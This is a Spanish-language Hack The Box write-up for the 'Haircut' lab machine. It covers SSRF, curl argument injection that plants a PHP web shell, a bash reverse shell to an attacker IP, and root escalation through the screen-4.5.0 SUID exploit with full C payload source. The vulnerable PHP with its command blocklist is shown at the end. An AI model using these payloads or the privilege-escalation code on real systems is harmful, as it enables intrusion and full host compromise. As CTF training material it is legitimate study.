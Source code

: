 ```yaml
---
layout: single
title: Haircut - Hack The Box
excerpt: "CTF clásico de HTB, SSRF y busqueda de como explotar un comando SUID en el sistema"
date: 2018-11-24
classes: wide
header:
  teaser: /assets/images/htb-haircut/haircut1.png
categories:
  - hackthebox
  - writeup
tags:
  - hackthebox
  - SUID binary 
---
```



# 10.10.10.24 - Haircut
![](/assets/images/htb-haircut/haircut1.png)


------------
# Part 1: Enumeración

Puertos abiertos 22(shh) y 80(http)

```console
└─$ whatweb http://10.10.10.24
HTTPServer[Ubuntu Linux][nginx/1.10.0 (Ubuntu)], IP[10.10.10.24], Title[HTB Hairdresser]

└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt 'http://10.10.10.24/FUZZ'
000000150:   301        7 L      13 W       194 Ch      "uploads"

└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 'http://10.10.10.24/FUZZ.php'
000025043:   200        19 L     41 W       446 Ch      "exposed"
```
El fuzzing por subdominios no resuelve.
![](/assets/images/htb-haircut/haircut2.PNG)

**/uploads** -> 403 forbidden
**/exposed.php**

Hay una web que dice que que así "Pon la dirección de la peluquería que te gustaria visitar. Por ejemplo: http://localhost/test.html"
![](/assets/images/htb-haircut/haircut3.PNG)

------------
# Part 2: SSRF

Hay un panel que pone "http://localhost/test.html" y en un iframe nos muestra una foto.
Si por curiosidad buscamos "http://10.10.10.24/test.html" sale la misma foto.

En un iframe la web muestra contenido propio, (es como la máquina forge). Encima al ser localhost, se hace
peticiones a si mismo, por lo que puede mostrar contenido retringido al exterior. Esto se llama "SSRF".

La peticion es ```/POST a /exposed.php con los parametros formurl=http://localhost/test.html&submit=Go```

## Internal Port Discovery

Por http se puede acceder a puertos internos -> http://IP:puerto
```console
└─$ wfuzz -X POST --hw=83,95 -z range,0000-9999 -d "formurl=http://localhost:FUZZ&submit=Go" http://10.10.10.24/exposed.php
000000023:   200        25 L     97 W       898 Ch      "0022"
000000081:   200        29 L     100 W      932 Ch      "0080"
000003307:   200        22 L     92 W       909 Ch      "3306"
```
El puerto 3306 es sql, por lo que habrá una base de datos corriendo en algun lado.

## Fuzzing de subdominios
```console
└─$ wfuzz -X POST -w $(locate subdomains-top1million-5000.txt) -d "formurl=http://FUZZ.localhost&submit=Go" http://10.10.10.24/exposed.php
000000007:   200        22 L     319 W      2340 Ch     "webdisk"
000000003:   200        22 L     319 W      2336 Ch     "ftp"
000000001:   200        22 L     319 W      2336 Ch     "www"
000000006:   200        22 L     307 W      2258 Ch     "smtp"
000000008:   200        22 L     307 W      2257 Ch     "pop"
000000015:   200        22 L     319 W      2335 Ch     "ns"
000000023:   200        22 L     319 W      2338 Ch     "forum"
000000039:   200        22 L     319 W      2337 Ch     "dns2"
000000041:   200        22 L     307 W      2258 Ch     "dns1"
000000038:   200        22 L     307 W      2258 Ch     "demo"
```

Aun así probando con cualquiera de estos se queda colgado.

```console
└─$ wfuzz -X POST --hw=98,53,110 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -d "formurl=http://localhost/FUZZ/&submit=Go" http://10.10.10.24/exposed.php
000000150:   200        29 L     96 W       966 Ch      "uploads"
000002010:   200        19 L     43 W       471 Ch      "'"  
```
------------
# Part 3: RFI

Si en vez de apuntar al localhost, apuntamos a nuestro servidor ```sudo python3 -m http.server 80``` -> ```http://10.10.14.16```

Intentamos subir un index.html pero no lo ejecuta
```
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.16/443 0>&1'
```
Como el comando que está ejecutando el servidor es un "curl" (se ve por "% Total % Received % Xferd Average...")

```<?php system($_REQUEST['cmd']); ?>```

Hay una opción en curl para depositar archivos **-o**:
```http://10.10.14.16/cmd.php -o /var/www/html/uploads/cmd.php```

```console
└─$ curl -s "http://10.10.10.24/uploads/cmd.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)

└─$ curl -s "http://10.10.10.24/uploads/cmd.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.16/443 0>%261'"
```
------------
# Part 4: En el sistema

Recibimos una shell por el puerto 443.

- Usuarios del Sistema ->  root maria
- SUIDs -> /usr/bin/screen-4.5.0

Hay un exploit para eso:

1. Crea la librería " ./libhax.so"
```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```
```console
└─$ gcc -fPIC -shared -ldl -o ./libhax.so ./libhax.c 
```

1. Crea el binario rootshell (spawnea una sh manteniendo privilegios, una especie de "bash -p")
```c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```
```console
└─$ gcc -o ./rootshell ./rootshell.c
```

Una vez eso se siguen los pasos del exploit
```console
www-data@haircut:/tmp$ curl http://10.10.14.16/libhax.so -O
www-data@haircut:/tmp$ curl http://10.10.14.16/rootshell -O
www-data@haircut:/tmp$ cd /etc
www-data@haircut:/etc$ umask 000
www-data@haircut:/etc$ screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
www-data@haircut:/tmp$ screen -ls
www-data@haircut:/tmp$ ./rootshell
# whoami
root
```

------------
# Extra

El código que hacia el curl
```php
<?php
	if(isset($_POST['formurl'])){
		echo "<p>Requesting Site...</p>";
		$userurl=$_POST['formurl'];   // $usrurl es lo que pasa el usaurio por el panel.
		$naughtyurl=0;			// Flag que ve si la url es "sucia"
		$disallowed=array('%','!','|',';','python','nc','perl','bash','&','#','{','}','[',']'); // Caracteres especiales
		foreach($disallowed as $naughty){ 
			if(strpos($userurl,$naughty) !==false){   // Si cada uno de esos caracteres sale en la url, no ejecutamos nada.
				echo $naughty.' is not a good thing to put in a URL';
				$naughtyurl=1;}}
		if($naughtyurl==0){    // Si pasa esta vaga sanitización...
			echo shell_exec("curl ".$userurl." 2>&1");}}    // El sistema le hace un curl
?>
```
Lo de los caracteres es para que no se pueda ejecutar comandos tipo ```curl http://localhost/test.html; whoami```